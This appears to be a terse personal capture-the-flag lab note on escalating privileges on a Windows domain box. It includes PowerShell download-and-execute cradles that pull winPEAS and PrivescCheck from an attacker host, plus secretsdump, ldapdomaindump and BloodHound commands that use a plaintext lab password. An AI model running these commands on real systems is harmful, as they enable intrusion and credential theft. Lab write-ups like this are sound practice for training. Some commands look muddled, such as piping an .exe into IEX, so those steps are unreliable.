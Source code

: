 
![[Pasted image 20240924041011.png]]

![[Pasted image 20240924041046.png]]

```
Invoke-WebRequest -Uri http://10.10.16.6/Auto/winPEASx64.exe -OutFile winpeas.exe
```
![[Pasted image 20240924042731.png]]

I think some kind of antivirus is running behind
![[Pasted image 20240924043719.png]]

Now there are 2 ways either to try 
ldap
secrets dump
bloodhound
and see what we get so that we can escalate 


Secrets Dump
```
secretsdump.py holo.live/tushikikatomo:'finance1'@10.10.10.179
```

Ldap
```
ldapdomaindump ldaps://10.10.10.179 -u 'megacorp.local\tushikikatomo' -p 'finance1'
```
![[Pasted image 20240924141609.png]]

Bloodhound
```
bloodhound-python -d megacorp.local -u tushikikatomo -p 'finance1' -ns 10.10.10.179  -c all
```



Let's get back to script and see what we can do there
```
IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.20/PrivescCheck.ps1'); Invoke-PrivescCheck -Extended
```

```
Invoke-WebRequest -Uri http://10.10.16.6/Auto/winPEASx64.exe -OutFile winpeas.exe
```

```
IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.6/Auto/winPEASx64.exe'); Invoke-winPEASx64 -Extended
```

```
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.6/Auto/winPEASx64.exe') | powershell -noprofile -
```


```
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.6/PEASS-ng/winPEAS/winPEASps1/winPEAS.ps1')
```

PEASS-ng/winPEAS/winPEASps1/winPEAS.ps1